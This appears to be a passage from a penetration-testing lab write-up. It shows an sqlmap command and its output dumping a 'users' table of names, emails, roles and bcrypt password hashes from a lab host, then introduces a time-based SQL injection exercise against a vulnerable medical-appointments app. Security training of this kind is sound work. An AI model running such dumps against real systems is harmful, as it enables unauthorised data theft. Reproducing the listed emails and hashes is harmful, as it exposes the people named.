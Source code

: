 ```
[*] ending @ 17:47:26 /2024-12-10/
```

`sqlmap -r ./request.txt -p 'post' -D 'victor' -T 'users' --columns --dump`:
```
[...]

[17:48:12] [INFO] fetching entries for table 'users' in database 'victor'
Database: victor
Table: users📌
[5 entries]📌
+---------+----------+-----------+-----------+------------------------+-------------------------+---------------+--------------------------------------------------------------+----------------+
| user_id | randsalt | user_name | user_role | user_email             | user_image              | user_lastname | user_password                                                | user_firstname |
+---------+----------+-----------+-----------+------------------------+-------------------------+---------------+--------------------------------------------------------------+----------------+
| 2       | dgas     | Chuks     | User      | chuks@gmail.com        | 2347033459561.jpg       | Alagwu        | <blank>                                                      | Johnpaul       |
| 3       | dgas     | Demo      | User      | demo@gmail.com         | Image                   | Surname_Demo  | $2y$10$6kFvYVJQEndRCVZbSCx6sOcp5E3oCnCK03oIY/0ZnJWjsjub2Z5g6 | Demo           |
| 6       | dgas     | Henry     | Admin     | henry@gmail.com        | Image                   | Henry         | $2y$10$VDH.FEM7qs5Yv29nnXuUqeoCWtYeVYJ6xKaGOZvoPzHBfCWtUXXr2 | DemoLoaded     |
| 7       | dgas     | Victor    | Admin     | victoralagwu@gmail.com | IMG_20160129_145808.jpg | Alagwu        | $2y$10$DCJGfBNgpoWml9.9/MYkaeSVUKf8t2tSUo5Po.bDfR3xcjx5pJwoa | Victor         |
| 8       | dgas     | admin     | User      | admin@admin.xyz        | Image                   | admin         | $2y$10$gOIjK85KGruyhDCRdWTUeeU6FrBmNLcec/evSrBfdtwWolfjO1EvS | admin          |
+---------+----------+-----------+-----------+------------------------+-------------------------+---------------+--------------------------------------------------------------+----------------+

[17:48:13] [INFO] table 'victor.users' dumped to CSV file '/home/nabla/.local/share/sqlmap/output/vmdbzf0sxoi7jc9yboehw3vt6.eu-central-6.attackdefensecloudlabs.com/dump/victor/users.csv'
[17:48:13] [INFO] fetched data logged to text files under '/home/nabla/.local/share/sqlmap/output/vmdbzf0sxoi7jc9yboehw3vt6.eu-central-6.attackdefensecloudlabs.com'

[*] ending @ 17:48:13 /2024-12-10/
```

### Exploiting Time-Based SQLi Vulnerabilities

#### Lab Environment

**CiMe Citas Medicas**

The attacker might not have any user level access to the web application. However, this does not mean that the application cannot be compromised remotely. SQL Injection vulnerabilities could be triggered even by unauthenticated users.

In the exercise below, <u>the attacker is unauthenticated to the web application and needs to find an SQL Injection attack on it</u>.

<u>A version of CiMe Citas Medicas is vulnerable to an SQL injection attack</u>.
